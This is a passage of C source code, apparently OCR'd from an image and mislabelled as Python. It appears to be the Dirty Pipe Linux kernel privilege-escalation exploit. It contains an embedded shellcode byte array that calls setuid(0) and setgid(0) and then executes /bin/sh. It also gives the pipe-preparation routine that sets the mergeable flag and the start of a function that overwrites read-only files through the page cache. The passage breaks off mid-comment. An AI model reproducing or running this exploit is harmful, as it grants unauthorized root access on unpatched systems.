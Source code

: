 ```python
  0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
  0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
  0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
  0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
  0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
  0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
  if (pipe(p)) abort();

  const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
  static char buffer[4096];

  /* fill the pipe completely; each pipe_buffer will now have
     the PIPE_BUF_FLAG_CAN_MERGE flag */
  for (unsigned r = pipe_size; r > 0;) {
    unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    write(p[1], buffer, n);
    r -= n;
  }

  /* drain the pipe, freeing all pipe_buffer instances (but
     leaving the flags initialized) */
  for (unsigned r = pipe_size; r > 0;) {
    unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    read(p[0], buffer, n);
    r -= n;
  }

  /* the pipe is now empty, and if somebody adds a new
     pipe_buffer without initializing its "flags", the buffer
     will be mergeable */
}

int hax(char *filename, long offset, uint8_t *data, size_t len) {
  /* open the input file and validate the specified offset */
  const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
  if (fd < 0) {
    perror("open failed");
    return -1;
  }

  struct stat st;
  if (fstat(fd, &st)) {
    perror("stat failed");
    return -1;
  }

  /* create the pipe with all flags initialized with
     PIPE_BUF_FLAG_CAN_MERGE */
  int p[2];
  prepare_pipe(p);

  /* splice one byte from before the specified offset into the
     pipe; this will add a reference to the page cache, but
```